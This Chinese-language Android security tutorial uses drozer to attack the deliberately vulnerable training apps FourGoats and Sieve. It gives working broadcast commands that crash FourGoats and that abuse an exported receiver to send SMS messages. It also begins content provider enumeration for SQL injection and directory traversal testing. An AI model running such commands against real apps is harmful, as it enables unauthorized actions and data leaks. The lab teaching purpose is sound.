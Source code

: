 漏洞样本1 - 拒绝服务

测试的时候，我用的是android 11，经测试发现的情况比较奇怪。当我打开fourgoats，停留在fourgoats界面，不停的执行下方的命令，app不停重启，偶尔会提示app关闭，但无法必现。而且，执行下方的命令，不需要drozer-agent的activity在最上层。
```
run app.broadcast.send --action org.owasp.goatdroid.fourgoats.SOCIAL_SMS
```

漏洞样本2 - 越权

如果要测试此类漏洞，则需要拿到apk的源码进行分析，确定参数个数，类型，名称等信息。

通过Bytecode-Viewer-2.9.22浏览apk的源码，发现如下实现
```
package org.owasp.goatdroid.fourgoats.broadcastreceivers;

import android.app.PendingIntent;
import android.content.BroadcastReceiver;
import android.content.Context;
import android.content.Intent;
import android.os.Bundle;
import android.telephony.SmsManager;
import org.owasp.goatdroid.fourgoats.misc.Utils;

public class SendSMSNowReceiver extends BroadcastReceiver {
   Context context;

   public void onReceive(Context var1, Intent var2) {
      this.context = var1;
      SmsManager var3 = SmsManager.getDefault();
      Bundle var4 = var2.getExtras();
      var3.sendTextMessage(var4.getString("phoneNumber"), (String)null, var4.getString("message"), (PendingIntent)null, (PendingIntent)null);
      Utils.makeToast(this.context, "Your text message has been sent!", 1);
   }
}
```
看到上面的代码，可以确定，接收两个参数，分别是"phoneNumber"和"message"，两个参数均是string类型。接下来构造攻击命令，如下：
```
run app.broadcast.send --action org.owasp.goatdroid.fourgoats.SOCIAL_SMS --extra string phoneNumber 10010 --extra string message test!
```
app收到这个广播之后，就向目标号码发送一段指定内容的短消息。

### content provider组件测试
SQL注入；目录遍历；敏感信息泄露

provider组件主要是提供给app分享数据和文件的功能，比如通讯录app，当其他app想要访问通讯录时，就需要通讯录app提供数据查询服务，而通讯录app就是通过该组件提供服务。一般这类数据是以SQLite存储，所以获取时可能存在SQL注入。另外一种共享方式是共享文件，该方式可能存在目录遍历问题。无论是SQL注入或者是目录遍历，都可能涉及敏感信息泄露。

#### 定位目标app支持的content provider
dz> run app.provider.info -a com.mwr.example.sieve
```
Package: com.mwr.example.sieve
  Authority: com.mwr.example.sieve.DBContentProvider
    Read Permission: null
    Write Permission: null
    Content Provider: com.mwr.example.sieve.DBContentProvider
    Multiprocess Allowed: True
    Grant Uri Permissions: False
    Path Permissions:
      Path: /Keys
        Type: PATTERN_LITERAL
        Read Permission: com.mwr.example.sieve.READ_KEYS
        Write Permission: com.mwr.example.sieve.WRITE_KEYS
  Authority: com.mwr.example.sieve.FileBackupProvider
    Read Permission: null
```